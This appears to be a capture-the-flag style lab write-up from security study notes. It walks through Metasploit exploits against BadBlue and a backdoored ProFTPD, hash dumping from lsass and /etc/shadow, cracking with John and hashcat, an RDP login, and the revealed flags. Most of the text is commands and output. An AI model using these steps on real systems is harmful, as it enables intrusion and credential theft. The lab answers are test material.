 # 🔬Cracking Hashes

## Lab 1 - Windows

> 🔬 [Windows: NTLM Hash Cracking](https://attackdefense.com/challengedetails?cid=2351)
>
> - Target IP: `10.2.24.37`
> - **NTLM Hashes dumping and cracking**

### Enumeration & Exploitation

```bash
nmap -sV -p 80 10.2.24.37
```

```bash
80/tcp open  http BadBlue httpd 2.7
```

```bash
service postgresql start && msfconsole -q
```

```bash
search badblue
use exploit/windows/http/badblue_passthru
options
setg RHOSTS 10.2.24.37
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
getuid
	Server username: WIN-OMCNBKR66MN\Administrator
get privs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeBackupPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeCreatePagefilePrivilege
    SeCreateSymbolicLinkPrivilege
    SeDebugPrivilege
    SeImpersonatePrivilege
    SeIncreaseBasePriorityPrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeLoadDriverPrivilege
    SeManageVolumePrivilege
    SeProfileSingleProcessPrivilege
    SeRemoteShutdownPrivilege
    SeRestorePrivilege
    SeSecurityPrivilege
    SeShutdownPrivilege
    SeSystemEnvironmentPrivilege
    SeSystemProfilePrivilege
    SeSystemtimePrivilege
    SeTakeOwnershipPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```

- With the `Administrator` Meterpreter session, privilege escalation is not necessary.
- Migrate to the `lsass` process

```bash
pgrep lsass
migrate 688
# Meterpreter session is x64 and more stable now
```

### Dumping Hashes

❗ In order to set up persistence, administrative privileges are required.

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

- Open a new tab and create a `.txt` file with the dumped hashes. Paste the `Administrator` and `bob` hashes

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
```

### Cracking Hashes

- Metasploit [auxiliary/analyze/crack_windows](https://www.rapid7.com/db/modules/auxiliary/analyze/crack_windows) module can be used to brute-force the hashes.

#### JohnTheRipper

- In this case John The Ripper will be used as an example

[**`john`**](https://github.com/openwall/john) - *Open Source password security auditing and password recovery tool available for many operating systems*

```bash
john --list=formats | grep NT
	netntlm, netntlm-naive, net-sha1, nk, notes, md5ns, nsec3, NT, o10glogon
```

```bash
john --format=NT hashes.txt
# It will use the default wordlist
```

![john](5-post-exploitassets/image-20230429165909391.png)

- Use the **`rockyou.txt`** wordlist instead

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

#### Hashcat

[**`hashcat`**](https://hashcat.net/hashcat/) - *Open Source advanced password recovery utility, supporting five unique modes of attack for over 300 highly-optimized hashing algorithms*

- Crack NTLM hashes with **`hashcat`** brute-force

```bash
hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt 

hashcat -a 3 -m 1000 --show hashes.txt /usr/share/wordlists/rockyou.txt 
    8846f7eaee8fb117ad06bdd830b7586c:password
    5835048ce94ad0564e29a924a03510ef:password1
```

![hashcat](5-post-exploitassets/image-20230429171221536.png)

- Try RDP login

```bash
xfreerdp /u:Administrator /p:password /v:10.2.24.37
```



<details>
<summary>Reveal Flag - Administrator's Password is: 🚩</summary>



`password`



</details>



<details>
<summary>Reveal Flag - bob's Password is: 🚩</summary>



`password1`



</details>

------

## Lab 2 - Linux

> 🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
> - Target IP: `192.22.107.3`
> - **Password Hashes dumping and cracking**
> - Same lab as the [🔬Hashes Dumping lab](../1-system-attack/linux-attacks/creds-dump-unix.md)

### Enumeration & Exploitation

```bash
ip -br -c a
	192.22.107.2/24
```

```bash
nmap -sV 192.22.107.3
```

```bash
21/tcp open  ftp  ProFTPD 1.3.3c
```

```bash
service postgresql start && msfconsole -q
```

```bash
setg RHOSTS 192.22.107.3
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
exploit
```

```bash
/bin/bash -i
```

### Dumping Hashes

```bash
cat /etc/shadow
```

> 📌 `root`:`$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.`
>
> - `$6` = the hashing algorithm is **SHA-512**

![](5-post-exploitassets/image-20230429172631955.png)

- An MSF module can be used for hash dumping

```bash
# CTRL+Z to background the session
sessions -u 1
session 2

use post/linux/gather/hashdump
set SESSION 2
run
```

![Metasploit - post/linux/gather/hashdump](5-post-exploitassets/image-20230429173144172.png)

```bash
cat /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt
	root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
```

- Exit `MSFconsole`

### Cracking Hashes

- Metasploit [auxiliary/analyze/crack_linux](auxiliary/analyze/crack_linux) module can be used to brute-force the hashes. Check the technique in the same [🔬lab environment](../1-system-attack/linux-attacks/creds-dump-unix.md).

#### JohnTheRipper

- In this case John The Ripper will be used as an example

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz

john --format=sha512crypt /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](5-post-exploitassets/image-20230429173532699.png)

#### Hashcat

```bash
hashcat --help | grep 1800
	1800 | sha512crypt $6$, SHA512 (Unix) | Operating Systems
```

```bash
hashcat -a 3 -m 1800 /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt /usr/share/wordlists/rockyou.txt
```

![hashcat](5-post-exploitassets/image-20230429173910283.png)



<details>
<summary>Reveal Flag - "root" user's password is: 🚩</summary>



`password`



</details>

------

